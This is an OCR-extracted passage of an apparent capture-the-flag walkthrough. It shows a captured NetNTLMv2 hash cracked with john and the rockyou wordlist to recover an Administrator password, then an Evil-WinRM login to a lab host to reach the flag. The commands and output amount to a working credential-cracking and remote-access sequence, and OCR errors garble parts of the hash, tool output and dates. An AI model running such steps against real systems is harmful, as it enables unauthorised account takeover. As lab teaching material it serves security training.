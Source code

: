     LE00570049004E002D004E0048004500380044004900340041005300430051000400340
    0570049004E002D004E0048004500380044004900340041005300430051002E00420044
    004F0032002004C004F00430041004C0003001400420044004F0032002E004C004F004
    30041004C0005001400420044004F0032002004C004F00430041004C0007000800005F
    321485340801060004000200000008003000300000000000000001000000002000000C2
    FAF941D04DCECC6A7691EA92630A77073056DA8C3F356D47C324C6D6D16FOA00100000
    0000000000000000010900000000000900200063006900660073002F00310030002E003
    100300020031003400200320035000000000000000000
    The NetNTLMv2 includes both the challenge (random text) and the encrypted response.
    Hash Cracking
    We can dump the hash into a file and attempt to crack it with john, which is a password hash cracking
    utility.
    echo "Administrator: : DESKTOP-
    H3OF232 : 1122334455667788 : 750A87A2CCB487AD9B76C7BOAEAEE133 : 0101000000000000005F3214B534D
    801FOE8BB688484C9600000000002000800420044004F00320001001E00570049004E002D004E0048004500
    3800440049003400410053004300510004003400570049004002D00400480045003800440049003400410
    0530043005100200420044004F0032002004C004F004300410040003001400420044004F0032002E004C
    004F004300410040005001400420044004F0032002004C004F004300410040007000800005F3214B534D
    8010600040002000000080030003000000000000000010000000020000 00C2FAF941D04DCECC6A7691EA926
    30A776073056DA8C3F356D47C324CD6D16F0A0010000000000000000000000000000000000009002000630
    06900660073002F003100300020031003000200310034002E00320035000000000000000000" >
    hash . txt
    We pass the hash file to john and crack the password for the Administrator account. The hash type is
    automatically identified by the john command-line tool.
    -w : wordlist to use for cracking the hash
    john -w=/usr/share/wordlists/rockyou. txt hash. txt
    john -w=/usr/share/wordlists/rockyou. txt hash. txt
    Using default input encoding: UTF-8
    Loaded 1 password hash (netntinv2, NTLMV2 C/R \[D4 HAC-MD5 32/641)
    Will run 2 OpenP threads
    Press 'q' or Ctri-C to abort, almost any other key for status
    badminton ( Administrator )
    1g 0:00:00:00 DONE (2922-03-10 19:32) 100.8g/s 499680p/s 489688c/s 409689C/s adriano. . 060090
    Use the show --format-bettlev2" options to display all of the cracked passwords reliably
    Session completed
    john will try each password from the given password list, encrypting the challenge with that password. If
    the result matches the response, then it knows it found the correct password. In this case, the password of
    the Administrator account has been successfully cracked.
    password : badminton
    WinRM
    We'll connect to the WinRM service on the target and try to get a session. Because PowerShell isn't installed
    on Linux by default, we'll use a tool called Evil-WinRM which is made for this kind of scenario.
    evil-winrm -i 10.129. 136.91 -u administrator -p badminton
    evil-winrm -i 10. 129. 136.91 -u administrator -p badminton
    Evil-WinRM shell v3.3
    Info: Establishing connection to remote endpoint
    \*Evil-WinRM\* PS C: \\Users\\Administrator\\Documents>
    We can find the flag under c: \\Users\\mike\\Desktop\\flag. txt.
    O
    \*Evil-WinRM\* PS C: \\Users\\mike\\Desktop> dir
    Directory: C: \\users\\mike\\desktop
    Mode
    LastWriteTime
    Length Name
    -a----
    3/10/2022
    4:50 AM
    32
    flag. txt